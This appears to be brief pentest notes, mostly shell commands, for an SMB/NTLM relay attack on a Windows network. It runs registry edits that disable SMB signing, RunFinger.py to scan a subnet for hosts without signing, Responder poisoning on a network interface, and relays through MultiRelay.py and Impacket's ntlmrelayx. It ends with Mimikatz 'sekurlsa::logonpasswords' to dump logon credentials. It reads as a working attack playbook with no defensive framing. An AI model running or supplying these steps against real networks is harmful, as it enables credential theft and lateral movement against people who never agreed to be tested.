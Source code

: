 
Shared Folder
```
\\ScanFolder\c$
```

Disable SMB Signing
```
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanWorkStation\Parameters" /v "RequireSecuritySignature" /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanWorkStation\Parameters" /v "EnableSecuritySignature" /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters" /v "RequireSecuritySignature" /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters" /v "EnableSecuritySignature" /t REG_DWORD /d 0 /f
```


Comando de Busqueda herramientas:
```
find /usr/share/responder/ -name "MultiRelay.py" -print
find /usr/share/responder/ -name "ntlmrelayx.py" -print
```

1. Identify network systems that do not require SMB message validation to detect machine with SMB signing:disabled.
```
cd /usr/share/responder/tools/
python RunFinger.py -i 192.168.0.0/24
```
2. Configure Impacket’s NTLMrelayx to target those systems
```
echo "IP"  >> targets.txt
 ```   
 ```
 cd /usr/share/responder/tools
 python MultiRelay.py -t 192.168.0.4 -u ALL -d
 ntlmrelayx.py -tf targets.txt --smb2support
 ```
3. Disable SMB and HTTP response poisoning in Responder and launch
```
cd /usr/share/responder
```
```
gedit Responder.conf
```
4. Open the Responder.conf file and set the value of SMB and HTTP to Off
```
responder -I eth0 -rv
responder -I eth0 -rdw
```
5. Wait for creds
6. Invoke standard Mimikatz
```
mimi sekurlsa::logonpasswords
```



